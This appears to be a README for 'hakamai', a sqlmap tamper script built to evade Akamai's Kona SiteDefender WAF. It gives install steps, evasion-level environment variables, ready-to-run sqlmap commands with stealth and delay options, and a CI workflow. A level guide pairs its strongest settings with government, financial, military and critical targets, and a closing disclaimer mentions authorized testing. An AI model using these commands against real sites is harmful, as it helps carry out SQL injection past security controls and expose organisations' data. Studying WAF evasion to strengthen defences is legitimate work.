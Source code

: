 # Kona SiteDefender Advanced Bypass Tamper Script 
## Comprehensive evasion techniques collection Research and educational purposes only by Zzl0y
* Multi-level tamper script designed to bypass Akamai's Kona SiteDefender WAF with sophisticated evasion techniques and adaptive payload transformation.


## Usage Guide

## 1. Installation and Setup
```bash
# Make it executable
chmod +x hakamai.py

# Copy to SQLMap tampers directory
cp hakamai.py ~/.sqlmap/tamper/
# OR
cp hakamai.py /opt/sqlmap/tamper/
```

## 2. Environment Configuration
```bash
# Core configuration
export TAMPER_LEVEL=3          # Evasion level (1-5)
export TAMPER_DEBUG=1          # Enable debug logging
export TAMPER_AGGRESSIVE=1     # Enable aggressive mode
export TAMPER_STEALTH=1        # Enable stealth mode
export TAMPER_SEED=12345       # Reproducible randomization seed

# Advanced configuration
export TAMPER_LOG_FILE=/tmp/tamper.log    # Custom log file
export TAMPER_STATS=1                     # Enable statistics
```

## 3. Usage Examples
```bash
# Basic professional usage
sqlmap -u "https://target.com/app.php?id=1" \
       --tamper=hakamai \
       --random-agent \
       --delay=2

# High-security target (Level 4 Stealth)
TAMPER_LEVEL=4 TAMPER_STEALTH=1 sqlmap \
    -u "https://target.com/app.php?id=1" \
    --tamper=hakamai \
    --random-agent \
    --delay=5 \
    --timeout=60 \
    --retries=3 \
    --proxy=http://127.0.0.1:8080

# Maximum evasion (Level 5 Adaptive)
TAMPER_LEVEL=5 TAMPER_AGGRESSIVE=1 sqlmap \
    -u "https://hardened-target.com/app.php?id=1" \
    --tamper=hakamai \
    --random-agent \
    --delay=10 \
    --timeout=90 \
    --threads=1 \
    --technique=BEUST

# Debug and analysis mode
TAMPER_DEBUG=1 TAMPER_LEVEL=3 sqlmap \
    -u "https://target.com/app.php?id=1" \
    --tamper=hakamai \
    --flush-session \
    -v 6 2>&1 | tee analysis.log
```

## 4. Level Selection Guide
```bash
Level	 Use Case	            Target Environment	            Recommended Settings
1	    Basic WAF, Testing	  Development, Light Security	    TAMPER_LEVEL=1
2	    Standard Production	  Most Corporate WAFs	            TAMPER_LEVEL=2 (default)
3	    Enhanced Security	    Strict Corporate, Government	  TAMPER_LEVEL=3 TAMPER_AGGRESSIVE=1
4	    High-Security Targets	Financial, Military, Critical	  TAMPER_LEVEL=4 TAMPER_STEALTH=1
5	    Maximum Evasion	      Hardened Environments, SOC	    TAMPER_LEVEL=5 TAMPER_AGGRESSIVE=1
```

## Hakamai.sh Automation Script
*Hakamai_auto.sh - Kona SiteDefender Testing Suite

## ⚡ Advanced Features

## Performance Monitoring
```bash
# Enable comprehensive monitoring
export TAMPER_STATS=1
export TAMPER_DEBUG=1

# Run with profiling
python -m cProfile -o tamper_profile.prof hakamai.py --benchmark
```

## Custom Seed for Reproducibility
```bash
# Set seed for reproducible testing
export TAMPER_SEED=12345
sqlmap -u "target.com" --tamper=hakamai

# Results will be identical across runs with same seed
```

## Integration with CI/CD
* yaml
```yaml
# .github/workflows/security-test.yml
name: Security Testing with Kona Bypass
on: [push]
jobs:
  security-test:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v2
    - name: Setup SQLMap
      run: |
        git clone https://github.com/sqlmapproject/sqlmap.git
        cp hakamai.py sqlmap/tamper/
    - name: Run Security Test
      env:
        TAMPER_LEVEL: 3
        TAMPER_DEBUG: 1
      run: |
        cd sqlmap
        python sqlmap.py -u "${{ secrets.TEST_URL }}" --tamper=hakamai --batch
```


## DISCLAIMER:
-----------
This script is intended for authorized penetration testing and security research only.
Use only in environments where you have explicit written permission to test.
Unauthorized use against systems you do not own is illegal and unethical.
